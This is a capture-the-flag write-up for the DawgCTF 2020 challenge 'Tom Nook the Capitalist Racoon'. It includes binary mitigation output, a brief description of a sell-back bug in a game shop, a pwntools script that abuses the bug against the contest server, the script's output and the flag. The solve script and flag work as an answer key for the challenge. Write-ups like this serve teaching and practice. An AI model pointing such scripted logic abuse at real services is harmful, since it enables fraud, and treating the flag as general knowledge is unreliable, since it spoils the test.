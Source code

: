 # DawgCTF 2020

## Tom Nook the Capitalist Racoon

> 200
>
> Anyone else hear about that cool infinite bell glitch?
>
> `nc ctf.umbccd.io 4400`
>
> Author: trashcanna
> 
> [animal_crossing](animal_crossing)

Tags: _rev_ _programming_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  This is going to be hard...


#### Decompile with Ghidra

Nothing obvious stood out. I suppose with enough analysis one could find the bug.


#### Mess around with it, get lucky

You can do this yourself, the binary is here.  All you do is buy a tarantula, then sell it back over and over until you have enough coin (bells) to buy the flag.

_Why a tarantula?_

It has the highest value, however, you can sell back the last item in your inventory as many times as you like (tested with _flimsy net - a great way to catch bugs! Price: 400 bells_--over 1000 iterations!)


### Solution

```
from pwn import *

#p = process('./animal_crossing')
p = remote('ctf.umbccd.io', 4400)

p.recvuntil('Choice: ')
p.sendline('2')
p.recvuntil('flag - 420000 bells\n')
p.sendline('2')

for i in range(int(420000 / 8000) + 1):
    print(i)
    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil('tarantula - I hate spiders! Price: 8000 bells\n')
    p.sendline('5')

p.recvuntil('Choice: ')
p.sendline('1')
p.recvuntil('tarantula - I hate spiders! Price: 8000 bells\n')
p.sendline('1')

p.recvuntil('Choice: ')
p.sendline('2')
p.recvuntil('flag - 420000 bells\n')
p.sendline('6')

p.recvuntil('Choice: ')
p.sendline('1')
_ = p.recvuntil('tarantula - I hate spiders! Price: 8000 bells\n')

print(_)
```

#### Output

```
# time ./exploit.py
[+] Opening connection to ctf.umbccd.io on port 4400: Done
0
1
...51
52
b"\n
Of course! What exactly are you\n
offering?\n
1. flag - DawgCTF{1nf1n1t3_t@rantul@$} Price: 420000 bells\n
2. olive flounder - it's looking at me funny Price: 800 bells\n
3. slingshot - the closest thing you can get to a gun Price: 900 bells\n
4. flimsy shovel - for digging yourself out of debt Price: 800 bells\n
5. tarantula - I hate spiders! Price: 8000 bells\n"

real    1m43.248s
user    0m0.476s
sys     0m0.143s
```

#### Flag

```
DawgCTF{1nf1n1t3_t@rantul@$}
```
